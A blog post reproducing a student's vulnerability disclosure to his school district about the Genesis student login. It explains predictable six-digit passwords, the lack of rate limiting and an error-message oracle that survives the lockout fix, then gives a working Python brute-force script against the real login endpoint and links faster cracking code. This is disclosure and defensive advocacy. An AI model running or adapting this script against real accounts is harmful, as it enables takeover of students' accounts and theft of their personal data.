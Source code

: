 @Title = School Password Concern
@Author = Connor Slade
@Date = 02-11-21
@Description = How I hacked my school (that caught your attention huh)
@Tags = School, Passwords, Hacking, Genesis
@Path = other/school-password-concern
@Assets = .

---

# 🏫 School Password Concern

<div ad note>
Note

A document I made a while ago (Apr 2021) and sent to my school district addressing the poor student account security.

About 18 days later the school IT person responded saying they have a mechanism in place to limit the number of password retries to 8.
I looked into how they implemented this and found that when an account is tried more than 8 it disables the account...
At first I thought they just shifted the problem because now you could lock people out of their accounts by spamming login attempts.
But I soon realized that it didn't even fix the original problem!

When your login failed it would show an error message. If it was because of an incorrect password this message would _always_ be `"Username or password is incorrect."`.
But if you had a correct passwords but the account was under the 'ratelimit' it would say `"Account is Inactive."`. So you could still tell if the password was correct.

A few months later I rewrote the system in Rust making it like thousands of times faster, often cracking a password in under 30 seconds.

And nothing much has happened since. I hope they fix this because I cant have been the only one to see a problem here.

</div>

<div ad info>
Info

Source Code can be found [here](https://raw.githubusercontent.com/Basicprogrammer10/SchoolPasswordCrack).

</div>

## 🧠 Intro

I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly.
This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password, a large amount of personal information is at risk.

## ❓ Why this is a problem

How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of student's personal information is accessible.
This includes the following (in no particular order)

- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devices signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account.
I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it).
Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit/modify/send information/emails as someone else.

## ✨ Fixes

Now that this problem is known, it wouldn't be very helpful if I didn't suggest some fixes!
So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts.
Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number.
This means that for many student passwords only four digits need to be cracked.
This is bad because it lowers the time to crack passwords.
I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes.
This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at a certain grade (I would say 6th grade) students could learn how to then make their own secure passwords.
Secure passwords have 10 characters made up of letters, numbers, and special characters.
These passwords should not be able to be seen by teachers or other staff but could be reset if needed.
This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to the Genesis login system.
This is something that would require working with the Genesis 'team' to fix but would be _ok_ if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession.
For example, the program mentioned above was able to make over 30 requests per second.
This allows simple brute force attacks (such as this one) to work.
Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA.

### 🌠 Fixes Conclusion

There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used.
Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion

Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it.
At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk.
I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to better security!
As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students.
I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor

## 📅 Technical Details (If you are interested)

Here I will be going over some specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164).
This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends a GET request to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/view` to get the `JSESSIONID` cookie assigned by the server.
Then it sends POST requests to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack.
I found these details by looking at the site's network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account.
Code comments are included to help show what each line does.

```python
import requests  # Import needed module

url      = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check'  # Define api uri
checkUrl = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/view?gohome=true'  # Define defult url

# Put student Email here (ex: example@domain.com)
email = ''

assert email != '' # Dont run if email is empty
print(f'[*] Starting Crack for {email}')  # Print email to crack

for i in range(9999):  # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}'  # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]')  # print what password is being tried

    # Create new session to hold cookies
    ses = requests.Session()

    # Let server Create cookies needed to proform exploit (JSESSIONID)
    ses.get(checkUrl)

    # Get Data to send
    dataToSend = {"j_password": toTry, "j_username": email}

    # Try Password
    data = ses.post(url, data=dataToSend)

    # Check if is correct password
    if not "Account is inactive" in data.text and not "workStudentId" in data.text:
        continue
    print(f'\n[*] Complete: {toTry}')  # if passwords is correct print it
    break  # Exit the loop when the password has been found
```

Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however, it does a good job showing what is going on without optimizations.
To speed this up multi-threading can be used to attempt more passwords in the same amount of time.
